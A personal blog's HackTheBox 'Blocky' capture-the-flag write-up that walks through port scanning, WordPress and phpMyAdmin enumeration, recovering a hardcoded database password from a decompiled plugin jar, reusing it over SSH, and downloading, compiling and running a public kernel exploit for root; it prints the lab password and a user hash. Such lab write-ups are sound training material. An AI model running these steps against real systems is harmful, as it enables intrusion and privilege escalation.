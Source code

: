 ```yaml
---
layout: post
title: "HackTheBox - Blocky - CTF Notes"
tagline: "Owning Blocky on HackTheBox"
description: "The following writeup shows the process I used to capture the user and root flags on Blocky 10.10.10.37 @ HackTheBox.eu"
date:   2017-12-13
comments: true
image:
  feature: blog/2/feature.jpg
  hero: blog/2/header.jpg
  tags: [ctf, hackthebox, labs, notes]
---
```


## Introduction
The following writeup shows the process I used to capture the user and root flags on Blocky 10.10.10.37 @ [HackTheBox.eu](https://hackthebox.eu)

This post essentially contains the field notes I took as I was working my way through the box. With that in mind, I don't really go into detail about the commands I use and this isn't really a proper writeup. I might come back and touch it up later or I might just leave this as is. ¯\\\_(ツ)_/¯

## Port Scanning
First off let's check what ports are open.

```shell_session
nmap 10.10.10.37
Starting Nmap 7.60 ( https://nmap.org )
Nmap scan report for 10.10.10.37
Host is up (0.18s latency).
Not shown: 996 filtered ports
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
80/tcp open http
8192/tcp closed sophos
Nmap done: 1 IP address (1 host up) scanned in 18.88 seconds
```
Cool, we've got ftp (21), ssh (22) and http (80)

## Identification
Let's take a quick look at the headers on the web server

```
curl -I 10.10.10.37
```

```
HTTP/1.1 200 OK
Server: Apache/2.4.18 (Ubuntu)
Link: <http://10.10.10.37/index.php/wp-json/>; rel="https://api.w.org/"
Content-Type: text/html; charset=UTF-8
```
It’s wordpress!

View-source:http://10.10.10.37 reveals we are working with Wordpress version 4.8.0 and there are no obvious plugins. Might come back with WPScan later.

/authors shows one user, “Notch”

Version 4.8.0 is affected by [a handful of vulnerabilities](https://wpvulndb.com/wordpresses/48) which we will come back too if needed.

## Enumeration
Let's do some directory enumeration...

```
uniscan -q -u http://10.10.10.37/
```

```
####################################
# Uniscan project #
# http://uniscan.sourceforge.net/ #
####################################
V. 6.3
======================================================================
=============================
| Domain: http://10.10.10.37/
| Server: Apache/2.4.18 (Ubuntu)
| IP: 10.10.10.37
======================================================================
=============================
|
| Directory check:
| [+] CODE: 200 URL: http://10.10.10.37/phpmyadmin/
| [+] CODE: 200 URL: http://10.10.10.37/plugins/
| [+] CODE: 200 URL: http://10.10.10.37/wiki/
| [+] CODE: 200 URL: http://10.10.10.37/wp-admin/
======================================================================
=============================
======================================================================
=============================
HTML report saved in: report/10.10.10.37.html
```

## Further Identification
View-source:http://10.10.10.37/phpmyadmin reveals version string [4.5.4.1deb2ubuntu2](https://www.phpmyadmin.net/files/4.5.4.1/) which was released on 2016-01-29.

[CVE-2016-5734](https://www.exploit-db.com/exploits/40185/) Affects this version.

Gonna keep digging…

http://10.10.10.37/wiki
(development page, will enumerate later)

http://10.10.10.37/plugins/
Cute File Browser

http://10.10.10.37/plugins/files/
Two java files found

http://10.10.10.37/plugins/files/BlockyCore.jar

http://10.10.10.37/plugins/files/griefprevention-1.11.2-3.1.1.298.jar

```
jar -xf BlockyCore.jar
cd com/myfirstplugin/
Jad BlockyCore.class
```
Found:
```
sqlHost = "localhost";
sqlUser = "root";
sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
```

## Password Reuse

Check credentials on PHPMYAdmin.... We’re in!

Check password against other users seen in db

One user in wp_users

```
Notch $P$BiVoTj899ItS1EZnMhqeqVbrZI4Oq0/ notch notch@blockcraftfake.com
```

Testing sql pass on wordpress user failed, no pw reuse there.

Modifying user_pass or creating new wp user gives back-end access to WP, from there we could upload a shell as www-data.
Could also have used CVE-2016-5734 on PHPMyAdmin to get a shell.

Testing password over ssh

```
ssh root@10.10.10.37
```

Failed no pw reuse

```
ssh notch@10.10.10.37
```

total success

```
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/advantage
7 packages can be updated.
7 updates are security updates.
Last login: Sun Oct 29 11:09:42 2017 from 10.10.14.13
```

## Privilege Escalation
At this point we have the user flag, now let's get that root flag.

```
notch@Blocky:~$ uname -r
4.4.0-62-generic
```


Kernel 4.4.0-62-generic is impacted by [CVE-2017-6074](https://www.cvedetails.com/cve/CVE-2017-6074/)

On local machine
```
wget https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-6074/poc.c
```

```
gcc poc.c -o pwn
```

Transfer file over to target

`./pwn` as `notch` or `www-data` will cause root

Edit: Upon reading [another writeup](https://gist.github.com/berzerk0/1a6270d3cacf30c3b5cff82c7f53bf4c) I realized I overlooked something. It seems exploiting CVE-2017-6074 was unnecessary as the user `notch` was actually an admin. Exploiting the above CVE would still have been useful if we had gotten a shell as `www-data` or another under privileged user.

## Summary

Blocky was a relatively easy system to pwn. Leaving credentials in the java file was a cool touch and is actually something I see often in my work engagements. This box featured a combination of plain-text credential storage, password reuse, and old software.

If you found this helpful, feel free to [give me a +1](https://www.hackthebox.eu/home/users/profile/14010) on HackTheBox.
